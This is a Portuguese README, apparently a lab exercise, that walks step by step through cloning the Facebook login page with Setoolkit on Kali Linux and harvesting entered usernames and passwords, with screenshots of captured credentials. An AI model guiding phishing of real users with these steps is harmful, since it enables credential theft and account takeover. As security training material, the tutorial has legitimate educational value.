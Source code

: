 Phishing para captura de senhas do Facebook

##Ferramentas utilizadas: Kali Linux e Setoolkit

Configurando o Setoolkit no Kali Linux

![Captura de tela 2024-12-02 203722](https://github.com/user-attachments/assets/ad72ca90-a8bc-4ffd-b57f-e1e5b0018c7b)

##Passo a passo da criação do Phishing 

###Configurar a máquina virtual Kali
![image](https://github.com/user-attachments/assets/97555416-3091-4409-9ea2-bbceed47daf7)


## Subir o privilegio no Kali Linux
@Kali:~$ sudo su
@Kali:~$ setoolkit

![image](https://github.com/user-attachments/assets/29930810-3b25-48e6-be2a-97ef29ee3b82)

##Para selecionar a opção de Social-Engineering Attacks

set> 1

![image](https://github.com/user-attachments/assets/17c83d51-da3a-428f-9923-b1a53dba1168)

##Para selecionar a opção de Spear-Phishing Attack Vectors

set> 2

![image](https://github.com/user-attachments/assets/46b353c7-00f0-49a5-bf4a-2a053002cd48)

##Para selecionar a opção de Credential Harvester Attack Method

set: webattack> 3

![image](https://github.com/user-attachments/assets/e2a88e58-a28c-48d6-baa9-4d4f2fb54711)

##Para selecionar a opção de Site cloner

set: webattack> 2

##Nessa parte estará rodando um servidor com a página falsa. Por isso será necessário algumas informações para configurar como o ip da máquina por isso que foi realizado a configuração da máquina virtual no inicio.

![image](https://github.com/user-attachments/assets/a914d8dd-9bd9-4abb-935e-510ea0fc9f5a)

set:webattack> IP address for the POST back in Harvester/Tabnabbing [192.168.15.14]: "ENTER"

set:webattack> Enter the url to close: http://www.facebook.com 

###Para acessar a página só utilizar o IP da máquina virtual numa nova aba do browser. No caso foi utilizado uma aba anonima 

![image](https://github.com/user-attachments/assets/380fbf2e-4474-47a3-8ce7-1e46b9a4ddf9)

###No Kali já mostra que alguém acessou a url clone e mostra o login e a senha utilizado

![image](https://github.com/user-attachments/assets/fed2cd37-8dd9-45a3-b7b6-204642c4c7b0)
![image](https://github.com/user-attachments/assets/d7f3dc76-01b4-4668-9f62-636b1dfa0c1a)
![image](https://github.com/user-attachments/assets/b2f0e7df-fc54-489d-b257-5e4183cd40f2)
![image](https://github.com/user-attachments/assets/4e7df630-50fd-407f-bad8-34b49b8a12a8)
![image](https://github.com/user-attachments/assets/6be5dad7-be29-47c4-8228-aec934a4be5f)


